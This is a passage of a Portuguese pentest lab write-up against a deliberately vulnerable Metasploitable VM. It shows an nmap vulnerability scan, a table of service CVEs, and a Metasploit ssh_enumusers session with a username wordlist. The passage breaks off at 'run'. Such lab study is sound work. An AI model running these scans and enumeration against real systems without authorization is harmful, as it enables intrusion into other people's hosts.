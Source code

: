 
## 2. Resumo de vulnerabilidades encontradas

Comando utilizado na labs.

```bash
nmap -n -Pn -sT -sV --script vuln --reason -oA metspl-ubu 192.168.56.3
```

O que não falta é vulnerabilidades para serem exploradas. Como é um Metasploitable, sabemos que é um servidor propositalmente vulnerável. Em ambientes reais, pode ser até mesmo um honeypot configurado.

| Porta | Serviço        | Versão | Vulnerabilidade                                 | Severidade         |
| ----- | --------------- | ------- | ----------------------------------------------- | ------------------ |
| 21    | ProFTPD         | 1.3.5   | CVE-2015-3306 (RCE via mod_copy)                | **CRÍTICA** |
| 22    | OpenSSH         | 6.6.1p1 | CVE-2020-15778, CVE-2016-10012                  | Alta               |
| 80    | Apache          | 2.4.7   | Múltiplas CVEs, SQL Injection, CSRF, Slowloris | Alta               |
| 445   | Samba           | 3.X-4.X | SMB DoS, possível RCE                          | Média             |
| 631   | CUPS            | 1.7     | CVE-2014-5031 (bypass autenticação)           | Média             |
| 3306  | MySQL           | -       | Sem autenticação, acesso direto               | **CRÍTICA** |
| 8080  | Jetty/Continuum | 8.1.7   | Slowloris, CSRF, Credentials Padrão            | Alta               |

---

## 3. Exploração - SSH (Porta 22) - OpenSSH 6.6.1p1

### 3.1 Vulnerabilidades identificadas

OpenSSH 6.6.1p1 possui múltiplos CVEs incluindo CVE-2020-15778 e CVE-2016-10012. Como vimos no resultado do scan, o próprio nmap sugere exploração via msfconsole.

Devido ser vulnerabilidade de alta criticidade, a estratégia foi: explorar o searchsploit para encontrar a CVE, ou consultar na web informações sobre referências de exploits. Nesse exemplo foi utilizado `ssh_enumusers`.

### 3.2 Passo 1: Enumeração de usuários com Metasploit

Realizei enumeração de usuários válidos no SSH usando o módulo ssh_enumusers:

```bash
msfconsole
msf > use auxiliary/scanner/ssh/ssh_enumusers
[*] Setting default action Malformed Packet - view all 2 actions with the show actions command

msf auxiliary(scanner/ssh/ssh_enumusers) > set rhosts 192.168.56.3
rhosts => 192.168.56.3

msf auxiliary(scanner/ssh/ssh_enumusers) > set check_false false
check_false => false

msf auxiliary(scanner/ssh/ssh_enumusers) > set user_file /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
user_file => /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt

msf auxiliary(scanner/ssh/ssh_enumusers) > run
```
